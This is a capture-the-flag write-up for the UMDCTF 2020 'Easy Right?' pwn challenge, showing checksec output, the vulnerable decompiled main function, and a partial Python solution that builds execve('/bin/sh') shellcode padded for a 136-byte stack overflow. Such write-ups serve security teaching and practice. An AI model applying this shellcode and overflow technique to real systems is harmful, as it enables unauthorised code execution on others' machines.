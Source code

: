 # UMDCTF 2020

> Sat, April 18, 2020 18:00 — Sun, April 19, 18:00 CST 

## Easy Right? (150pt)

### Description

> The mitigations have left the room.. 
>
> `nc 142.93.113.134 9999` 
>
> Author: `moogboi`


### Attachment

[baby](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/baby/baby)

### Analysis

```bash
% checksec baby 
[*] '/home/taqini/Downloads/UMDCTF/baby/baby'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

We know the address of `s` in stack and stack is executable, so just need to put our shellcode into `s` in stack and return to `s` by stack overflow.

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char s; // [rsp+0h] [rbp-80h]

  setbuf(stdout, 0LL);
  printf("Is this an... executable stack? %llx\n", &s);
  fgets(&s, 4919, stdin);
  return 0;
}
```

### Solution

```python
offset = 136
payload = asm('''
    /* execve(path='/bin/sh', argv=0, envp=0) */
    /* push '/bin/sh\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x68732f6e69622f
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    mov rax, SYS_execve /* 0x3b */
    syscall
    ''')
payload = payload.rjust(offset,'\x90')
```